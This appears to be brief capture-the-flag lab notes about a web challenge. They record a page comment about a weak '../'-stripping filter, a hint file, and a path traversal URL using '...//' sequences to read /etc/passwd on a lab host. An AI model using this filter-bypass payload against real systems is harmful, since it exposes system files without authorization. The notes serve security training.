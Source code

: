 #found a comment on the source code of the page:
	<!-- Tell Nikon I fixxed the LFI thing. All I did was implement a filter that replaces the ../ string. That's good enough, right?? -->

#found a pdf.txt.txt.bak file
	You gotta protect our turf acidburn. I left you a PDF on your desktop. It's crucial you read its contents. The filename is [my last name here].pdf Hurry up! I ain't got all day! --zerocool

#found a LFI:
	http://10.10.59.236/?page=...//....//....//....//....//....//etc//passwd

